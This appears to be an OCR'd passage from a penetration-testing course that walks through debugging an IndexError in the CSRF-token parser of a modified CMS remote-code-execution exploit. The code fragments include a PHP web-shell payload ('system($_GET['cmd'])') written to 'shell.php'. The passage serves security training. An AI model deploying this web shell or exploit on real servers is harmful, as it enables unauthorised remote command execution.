 ```
```
+ An exception was triggered during the execution of the _parse_csrf_token_ function on line 24 of the code
+ The error indicates that the code tried to access a non-existent element of a Python list via its second element `(location.split(csrf_param + "=")[1]`)
+ We'll discuss how to circumvent this issue in the next section.

### Troubleshooting the "index out of range" Error
As we found during the previous section, the Python interpreter has thrown an error related to line 24 of our modified exploit.

Inspecting this line, we'll notice that it uses the _split_ method in order to slice the string stored in the _location_ parameter passed to the _parse_csrf_token_ function
+ The Python documentation for _split_ indicates that this method slices the input string using an optional separator passed as a first argument
+ The string slices returned by _split_ are then stored in a Python _list_ object that can be accessed via an index
``` python
kali@kali:~$ python
...
>>> mystr = "Kali*-*Linux*-*Rocks"

>>> result = mystr.split("*-*")

>>> result
['Kali', 'Linux', 'Rocks']

>>> result[1]
'Linux'
```

In our exploit code, the string separator is defined as the _csrf_param_ variable ("`__c`") followed by the equals sign
``` python
csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    return location.split(csrf_param + "=")[1]
```

In order to better understand the _IndexError_, we can add a _print_ statement in the _parse_csrf_token_ function before the return instruction:
``` python
csrf_param = "__c"
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"

def parse_csrf_token(location):
    print "[+] String that is being split: " + location
    return location.split(csrf_param + "=")[1]
```
